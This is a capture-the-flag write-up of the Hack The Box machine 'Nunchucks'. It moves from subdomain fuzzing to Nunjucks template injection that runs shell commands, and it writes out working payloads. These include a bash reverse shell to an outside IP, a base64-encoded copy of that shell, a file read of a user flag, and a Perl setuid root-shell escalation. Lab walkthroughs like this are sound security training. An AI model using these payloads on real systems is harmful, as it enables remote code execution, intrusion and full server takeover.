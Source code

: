 1. Run Nmap to discover any open ports and services from the web server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7b1e08-e98c-4497-9520-1f112bb70c54)

2. Try to open the ip address on the browser and get a domain nunchuks.htb. Add to **/etc/hosts/** so I can open the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2004824b-ce1f-4e81-b032-03b5694d6474)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d4f64624-14ea-43cd-882b-7cdaaa998424)

3. Checking the Sign Up and Log In feature and can't use both of them.
Signup:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/85432824-3fef-4900-92b1-8b8eed99f263)

Login:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d2ddddb7-8d36-46b5-96d0-c720828e2f84)

4. Checking another website features and contents. In the footer, I found that there is a store feature to be opened coming soon.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2977a9df-af8d-4698-bc24-d9f76fafe823)

5. So I thought that there is a hidden subdomain from the website. To check it, I use this command `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4f8cd75a-ca63-49c0-8cff-550ce3fb036e)

6. Hmm, it seems the characters has average of 30587. To get the unique one (the subdomain that we want to find) we can filter it with `--hh` in our command `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb" --hh 30587`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/28f5989e-71b7-4257-9394-780f84b122f0)

7. I add it to **/etc/hosts** that give me the access to open the subdomain.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e60ce229-8654-42f6-bcdc-6797d84481f0)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/37f1e264-4386-4eeb-bb4e-a72f5faf3b16)

8. It seems that the website only receive email inputs.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/270df8d4-f4d2-4757-b912-e22fabf99f97)

9. First thing is SQLi, so I put ' in front of my dummy email and it seems fine without error.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/10ffb2b8-4c6b-4829-b01f-5e96c6dbb527)

10. Next thing is SSTI, try to input `{{6*8}}@gmail.com` and yes it shows 48 as the result.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/36edf8ba-8383-4cb2-86db-b08aa8e204f3)

11. Searching for a payload that related to "nunchucks" and found this amazing [payload](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml).

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('insert any bash command')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f3db7daf-cf4c-4761-a941-849ba8a5cd67)

12. I try to execute reverse shell attack with this [tool](https://www.revshells.com/) and it didn't work.

payload:<br>
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.20/777 0>&1"')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bbe97c82-70a3-433d-90cd-2084bedeed2a)

13. Knowing that the execSync function can execute a bash command. So I search the user.txt location and found in /home/david/user.txt. 

Payload: <br>
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/425014a2-35de-46ff-996e-afb60f374550)

14. Again, I try to execute reverse shell and got an idea to insert it to the david terminal. First, we can encode it to base64 and send it with execSync function.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1fab502a-8d7b-44eb-bf45-018bab675c40)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC83NzcgMD4mMQo= | base64 -d > /home/david/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0251335b-6203-4b99-b504-b6e2b677ce0a)

Check:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/346a8d55-47e0-4946-b135-c902735d1b7d)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/778f5dd5-384a-4892-909a-78ab6fd35ec1)

15. Now I can execute it with adding bash infront of payload.sh command. 

Payload: <br>
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash ~/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d8354fd-304e-4a1e-81d2-759249212bc6)

Host:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8818ce95-fbbf-4c19-b656-1a28599721e5)

16. I successfully get the david terminal. Next I check the directories and discover a backup file in .pl extension (perl).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/42fc94ce-8421-4285-a47c-32ae4b69d5a0)

17. Open the file and I found that the POSIX qw(setuid) must be 0 to use the root privilege.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/35736c03-14e3-437d-8e3a-1e195ee01e2e)

18. To change it, I use the payload from this [web](https://gtfobins.github.io/gtfobins/perl/#capabilities). 

Payload:
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9e7e5996-ca7a-46a7-bfa6-c8cccb2feb87)

19. It doesn't work, so I write the payload to the new perl file with echo.

Command:<br>
`echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > root.pl`<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/05c7b034-7aab-4506-ae20-7a13e9f1a04c)

20. Give execute permission to the file.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d65db7ba-066e-434b-9423-40489e487a8a)

22. Run the payload and we get the root privilege. The root flag can be found in /root/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dc418505-95f3-4189-9d53-02b84c690307)






















